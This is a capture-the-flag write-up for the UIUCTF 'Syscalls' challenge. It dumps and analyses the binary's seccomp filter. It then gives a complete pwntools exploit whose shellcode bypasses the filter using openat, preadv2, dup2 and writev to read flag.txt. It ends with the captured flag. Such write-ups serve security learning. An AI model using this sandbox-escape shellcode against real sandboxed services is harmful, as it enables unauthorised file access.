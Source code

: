 https://ctftime.org/event/2275

# Syscalls (CATEGORY)

You can't escape this fortress of security.

ncat --ssl syscalls.chal.uiuc.tf 1337

## Analysis

`0x001011c9` / `main`:

- calls `0x1280`
- calls `0x12db`
- calls `0x12ba`

`0x1280`:

- reads our shellcode
- informs us that the flag is stored _in the current directory_ and is called flag.txt
    - I believe this to be a hint to use the `openat` syscall

`0x12db`:

- inserts a seccomp filter that is detailed below

`0x12ba`:

- calls our shellcode


Using `seccomp-tools` we can easily dump the seccomp filter from `0x12db`:

```
$ seccomp-tools dump ./syscalls 
The flag is in a file named flag.txt located in the same directory as this binary. That's all the information I can give you.
asdf
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x16 0xc000003e  if (A != ARCH_X86_64) goto 0024
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x13 0xffffffff  if (A != 0xffffffff) goto 0024
 0005: 0x15 0x12 0x00 0x00000000  if (A == read) goto 0024
 0006: 0x15 0x11 0x00 0x00000001  if (A == write) goto 0024
 0007: 0x15 0x10 0x00 0x00000002  if (A == open) goto 0024
 0008: 0x15 0x0f 0x00 0x00000011  if (A == pread64) goto 0024
 0009: 0x15 0x0e 0x00 0x00000013  if (A == readv) goto 0024
 0010: 0x15 0x0d 0x00 0x00000028  if (A == sendfile) goto 0024
 0011: 0x15 0x0c 0x00 0x00000039  if (A == fork) goto 0024
 0012: 0x15 0x0b 0x00 0x0000003b  if (A == execve) goto 0024
 0013: 0x15 0x0a 0x00 0x00000113  if (A == splice) goto 0024
 0014: 0x15 0x09 0x00 0x00000127  if (A == preadv) goto 0024
 0015: 0x15 0x08 0x00 0x00000128  if (A == pwritev) goto 0024
 0016: 0x15 0x07 0x00 0x00000142  if (A == execveat) goto 0024
 0017: 0x15 0x00 0x05 0x00000014  if (A != writev) goto 0023
 0018: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # writev(fd, vec, vlen)
 0019: 0x25 0x03 0x00 0x00000000  if (A > 0x0) goto 0023
 0020: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0024
 0021: 0x20 0x00 0x00 0x00000010  A = fd # writev(fd, vec, vlen)
 0022: 0x25 0x00 0x01 0x000003e8  if (A <= 0x3e8) goto 0024
 0023: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0024: 0x06 0x00 0x00 0x00000000  return KILL
 ```

1) Most syscalls are allowed but some common ones are not such as `open`, `read` and `write`
2) The `writev` syscall is allowed provided that the `fd` is between `0x3e9` and `0xffffffff00000000`
3) The `preadv2` and `pwritev2` variants of `preadv` and `pwritev` return `ALLOW`
4) The `openat` syscall returns `ALLOW`
5) The `dup2` and `dup3` syscalls return `ALLOW` this allows us to use `writev` with essentially any `fd` by duplicating it to an acceptable value first

Our shellcode is written to the stack this ensures we have at least some RWX memory we can use relative to `rip`

## Solution

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./syscalls", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="b *0x5555555552d6")
p = remote("syscalls.chal.uiuc.tf", 1337, ssl=True)

p.readline()

# 0022: 0x25 0x00 0x01 0x000003e8  if (A <= 0x3e8) goto 0024
FIRST_ACCEPTABLE_FD = 0x3e9

p.sendline(asm(
# make some space
# we'll use r12 as an iovec* and r13 as iovec->iov_base
"""
mov r12, rsp
mov r13, r12
sub r13, 4096
"""

# setup the iovec structure r12 = &v
# note: see man 3 iovec
# #include <sys/uio.h>
# struct iovec {
#     void* iov_base;
#     size_t iov_len;
# }
"""
mov qword ptr[r12], r13
mov qword ptr[r12+8], 4096
"""

# ensure that flag.txt will be followed by one or more \x00 bytes
# by zeroing a portion of the stack
"""
xor eax, eax
push rax
push rax
pop rax
"""

# rsi = "flag.txt\x00"
# note: that flag.txt is exactly 8 bytes
# so we need a \x00 byte in the next slot of the stack
"""
mov rax, 0x7478742e67616c66
push rax
mov rsi, rsp
"""

# int fd = openat(AT_FDCWD, "flag.txt", 0, 0)
# note: that AT_FDCWD is represented by the value -100
"""
mov r10, 0
mov rdx, 0
mov rdi, -100
mov eax, SYS_openat
syscall
"""

# int read = preadv2(fd, &iovec, 1, 0, 0)
"""
mov r8, 0
mov r10, 0
mov rdx, 1
mov rsi, r12
mov rdi, rax
mov eax, SYS_preadv2
syscall
"""

# update the iovec.iov_len with num bytes read
"""
mov qword ptr[r12+8], rax
"""

# dup2 stdout to satisfy <= 0x3e8 fd seccomp constraint
f"""
mov rsi, {FIRST_ACCEPTABLE_FD}
mov rdi, 1
mov eax, SYS_dup2
syscall
"""

# write the flag, from the iovec, to stdout
# via fd=FIRST_ACCEPTABLE_FD/0x3e9 using writev
f"""
mov rdx, 1
mov rsi, r12
mov rdi, {FIRST_ACCEPTABLE_FD}
mov eax, SYS_writev
syscall
"""
))

# uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}
print(p.recvall().decode())
```

## Flag
`uiuctf{a532aaf9aaed1fa5906de364a1162e0833c57a0246ab9ffc}`

smiley 2024/06/29
